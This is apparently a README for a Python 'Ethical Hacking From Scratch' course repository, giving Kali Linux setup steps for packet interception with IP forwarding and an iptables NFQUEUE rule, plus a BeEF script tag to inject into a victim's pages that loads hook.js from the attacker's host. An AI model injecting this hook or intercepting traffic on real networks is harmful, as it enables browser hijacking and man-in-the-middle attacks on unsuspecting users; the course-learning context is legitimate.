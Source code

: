 # EthicalHackingCourse
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file,
BeEF framework for Kali Linux is Required.

`sudo apt-get install beef-xss`

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:

`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,

where the default `<number>` is `0`.

For local testing, use both `OUTPUT` and `INPUT` chain.

To enable a basic HTTP server, type:

`sudo service apache2 start`

### Python
It seems that *netfilterqueue* does not work on Python 3.x.

### BeEF
The code we want to inject into our victim is:

`<script src="http://<IP>:3000/hook.js"></script`,

where `<IP>` is the IP of your host server containing *hook.js*.
